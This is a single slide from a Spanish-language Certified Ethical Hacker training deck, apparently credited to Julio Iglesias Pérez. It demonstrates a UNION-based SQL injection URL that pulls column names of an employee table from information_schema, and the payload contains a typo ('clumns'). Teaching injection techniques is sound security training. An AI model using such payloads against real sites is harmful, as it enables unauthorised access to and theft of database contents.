

# Ejemplo UNION SQL Injection
Extrayendo tabla Column Names
http://juggyboy.com/page.aspx?id=1 UNION SELECT ALL 1,column_name,3,4 from DB_NAME.information_schema.clumns where table_name = 'EMPLOYEE_TABLE' --
C|EH  Julio Iglesias Pérez